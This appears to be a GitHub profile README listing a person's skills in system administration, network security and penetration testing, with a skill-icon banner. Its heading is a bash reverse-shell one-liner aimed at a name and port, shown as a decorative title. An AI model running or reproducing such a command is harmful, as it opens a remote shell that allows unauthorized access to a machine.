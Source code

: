  <h1 align="center"> /bin/bash -i >& /dev/tcp/Sandra.Costales/444 0>&1 </h1>


<p align="left">
  
  <img src="https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExeDgzMmtzamtpeTB6cmF3aHZ2NmNyM3JyYzlhcG5uaHRjd3JuNTJ4cyZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/oYQ9HRm5Mo7VXeMNVR/giphy.gif" alt="image" width="450" align="right">
  </p>

- 💻 Systems Administration

- 🔐 Network Security

- 🌐 Computer Network Systems

- 🔒 Ethical Hacking

- 📡 Network Monitoring

- 💾 Data Backup and Recovery

- 🛡️ Penetration Testing

- 🔍Vulnerability Analysis 

<h1> Skills :</h1>


<p align="center">
  <a href="https://skillicons.dev">
    <img src="https://skillicons.dev/icons?i=git,kubernetes,docker,ansible,aws,bash,debian,elasticsearch,gitlab,grafana,html,js,kali,linux,md,mysql,netlify,nginx,powershell,prometheus,py,raspberrypi,ubuntu,vscode&perline=12  " />
  </a>
</p>





